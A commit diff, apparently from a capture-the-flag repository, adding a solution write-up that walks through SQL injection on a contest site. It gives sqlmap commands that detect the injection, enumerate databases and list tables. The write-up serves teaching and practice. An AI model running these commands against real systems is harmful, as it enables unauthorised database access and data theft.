

Before and after one commit to alperb/alperslist, a Markdown page: SOLUTION.md, the part around the change printed below. Rendered like a GitHub page; pictures changed too: images/dbs.png (added); blank space fills up the shorter version.

Commit message:
add: solution

```diff
--- a/SOLUTION.md
+++ b/SOLUTION.md
@@ -12,10 +12,22 @@ With the following command, we can make sqlmap to discover what kind of payload
 
 `sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a"`
 
-##### It is important to use
-
 #### 2. Exploring databases
 
 Once we find out a way to exploit the SQL injection, we can use the following command to dump table information from the remote:
 
-``
+`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -dbs`
+
+And we get the output:
+
+![dbs](./images/dbs.png)
+
+
+#### 3. Dumping tables
+
+In order to dump tables, first we can use the following command to explore the tables:
+
+`sqlmap -u "https://alperslist.c.sucyber.net/search" --data="search=a" -D alperslist --tables`
+
+And we get the output:
+
```
Also changed, not shown: other parts of SOLUTION.md (+14 -0 lines), images/flag.png (added), images/purchases.png (added), images/tables.png (added), 1 other file.
